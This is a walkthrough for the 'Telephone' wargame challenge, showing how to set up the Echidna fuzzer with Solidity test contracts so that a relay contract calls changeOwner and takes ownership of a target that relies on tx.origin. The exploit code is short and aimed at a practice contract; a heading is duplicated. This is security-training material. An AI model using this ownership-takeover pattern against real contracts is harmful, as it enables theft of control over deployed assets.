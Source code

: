 # Telephone Walkthrough
This walkthrough requires interacting with the target via a different contract. This gives us two different ways in which we can run this test. The first way is to let our test contract call the attacker contract. The other way, which maybe more realistic, is to let the fuzzer call the attack contract. 

The objective is to take ownership of the target.

## Setup 1
Create the config.yaml:
```yaml
contractAddr: "0x4242"
```

This is not strictly necessary as the contract will be deployed to the default address of `0x00a329c0648769a73afac7f9381e08fb43dbea72`. But to make things easier, I just decided to set the contract address to something smaller.

## Test Setup 1

In this test, we will use two contracts and the test contract's constructor to take ownership of the target.
```javascript
pragma solidity ^0.6.0;

import './Telephone.sol';

contract RingRing {
  Test phone = Test(0x4242);
  
  function pwn() public {
    phone.changeOwner(address(0x10000));
  }
}

contract Test is Telephone {
    RingRing ring;
  constructor() Telephone() public payable {
    // hint echidna
    ring = new RingRing();
  }

  function callPwn() public {
      ring.pwn();
  }

    function echidna_test_origin() public returns (bool) {
        if (tx.origin == owner) {
            return false;
        } else {
            return true;
        }
    }    
}
```

## Setup 2
## Setup 1
Create the config.yaml:
```yaml
contractAddr: "0x4242"
multi-abi: true
```

This is not strictly necessary as the contract will be deployed to the default address of `0x00a329c0648769a73afac7f9381e08fb43dbea72`. But to make things easier, I just decided to set the contract address to something smaller.

The second line `multi-abi: true` is needed to allow the echidna to call into any contract with a known ABI.

## Test Setup 2
In this setup, the fuzzer will call public functions from both the Test contract and the RingRing contract.

```javascript
pragma solidity ^0.6.0;

import './Telephone.sol';

contract RingRing {
  Test phone = Test(0x4242);
  
  function pwn() public {
    phone.changeOwner(address(0x10000));
  }
}

contract Test is Telephone {
    RingRing ring;
  constructor() Telephone() public payable {
    // hint echidna
    ring = new RingRing();
  }


    function echidna_test_origin() public returns (bool) {
        if (tx.origin == owner) {
            return false;
        } else {
            return true;
        }
    }    
}
```

